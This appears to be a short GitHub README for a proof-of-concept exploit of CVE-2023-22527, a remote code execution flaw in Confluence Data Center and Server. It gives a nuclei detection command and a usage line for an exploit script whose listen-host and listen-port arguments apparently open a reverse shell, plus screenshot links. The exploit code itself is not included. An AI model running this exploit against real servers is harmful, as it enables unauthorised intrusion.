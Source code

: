 # CVE-2023-22527 - RCE (Remote Code Execution) Vulnerability In Confluence Data Center and Confluence Server
# PoC
## Detect
`nuclei -v -t /path/to/template.yam; -u http://ip:port/`

![snapedit_1706203984065](https://github.com/thanhlam-attt/CVE-2023-22527/assets/79523444/d4747dd3-98f9-4dd7-ac62-6d8495fcb374)


## Exploit
`python3 CVE-2023-22527.py -u ip:port -lh listen-host -lp listen-port`

![snapedit_1706204311967](https://github.com/thanhlam-attt/CVE-2023-22527/assets/79523444/97e0d2a2-d360-4e75-80d0-70aca5e51537)
